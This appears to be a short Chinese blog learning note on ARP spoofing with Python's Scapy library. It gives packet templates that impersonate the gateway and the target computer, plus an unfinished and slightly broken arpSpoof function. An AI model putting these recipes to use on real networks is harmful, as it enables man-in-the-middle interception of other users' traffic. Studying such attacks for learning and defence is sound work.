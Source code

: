 ```yaml
---
layout: post
title: Scapy模块学习之ARP欺骗
tag: Python
date: 2018-05-08
---
```




```
from scapy.all import Ether,ARP,sendp,getmacbyip
```

> Ether：用来构建以太网数据包
> ARP：构建ARP数据包的类
> sendp：在第二层发送数据包
> getmacbyip：返回对应IP的MAC地址

###核心部分：
#####伪造网关 欺骗目标计算机：
Ether(src=[本机MAC],dst=[目标MAC])/ARP(hwsrc=[本机MAC],psrc=[网管IP],hwdst=[目标MAC],pdst=[目标IP],op=2)
>ARP将网关IP地址映射到本机MAC上，针对dst即目标（dst值为空时，针对当前网段所有IP）；Ether以网关身份向目标发包

#####伪造目标计算机 欺骗网关：
Ether(src=[本机MAC],dst=[网关MAC])/ARP(hwsrc=[本机MAC],psrc=[目标IP],hwdst=[网关MAC],pdst=[网关IP],op=2)
>ARP将目标IP地址映射到本机MAC上，针对网关；Ether以目标身份向网关发包（猜测psrc不填时，将伪造当前网段内所有IP的发包）
>op表示ARP响应


```python
from scapy.all import Ether,ARP,sendp,getmacbyip,get_if_hwaddr
bjMAC=get_if_hwaddr(wk)
mbMAC=getmacbyip(mbIP)
wgMAC=getmacbyip(wgIP)
ether=Ether()
arp=ARP()
def arpSpoof(mbMAC,wgMAC,bjMAC):
	try:
		eth.src=bjMAC
		eth.dst=wgMAC
		
		
```


未完待续...
